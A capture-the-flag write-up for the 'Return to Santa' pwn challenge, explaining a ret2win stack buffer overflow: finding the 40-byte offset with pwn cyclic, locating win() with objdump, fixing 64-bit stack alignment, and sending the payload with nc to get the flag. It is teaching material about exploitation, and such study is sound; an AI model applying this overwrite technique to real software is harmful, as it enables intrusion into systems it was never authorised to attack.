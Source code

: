 # Return to Santa

- Category: `pwn`
- Challenge author: **Björn Österman**

## Description

Santa wants a win()

### Connection info

```sh
nc 2021.santahack.xyz 42005
```

## Writeup

If you look at the program you will see that there is one function called 'win()'
The goal is to overwrite the stack and replacing the return-pointer with the address of the win()-function.

By starting 'gdb ./ret2santa' and the do a 
```console
run < <(pwn cyclic 100)
```
It will then segfault when trying to return. The value on the stack then starts with 'kaaa'

To find out how much data you need before putting in the address you can consult 'pwn cyclic' again:

```console
$ pwn cyclic -l kaaa
40
```

To find the address you can do the following:

```console
$ objdump -d ret2santa | grep "<win>"
00000000004017d0 <win>:
```

Now you can compose a payload:

:warning: If you use python3 and printf to print non-ascii-characters they will be converted into UTF-8

You can use Python 2 or just a shell echo:


:x: THIS DOESN'T WORK
```console
(pwn cyclic 40;echo -e "\xd0\x17\x40") | nc 2021.santahack.xyz 42005
```

The reason to why this doesn't work is because it's a 64-bit compiled binary and for this to work the stack has to be 16-aligned. Usually when a call is made it first pushes the return pointer to the stack and in the prolog of the function the EBP gets pushed to the stack. This is 8+8=16 bytes, so the alignment is maintained.

But when we "return" directly to the prolog, just pushing the EBP to the stack leaving it unaligned.

There are an easy ways to get around this:

**Just add 1 to the address so that the "push ebp"-instuction is skipped :-)**

In this case **0x4017d1**


```console
$ (pwn cyclic 40;echo -e "\xd1\x17\x40") | nc 2021.santahack.xyz 42005
Christmas is getting cold; we need a win NOW! Please help us!:

Let's try that!
You're awesome! Here's a flag for you :-)

haxmas{return_those_packets}
```
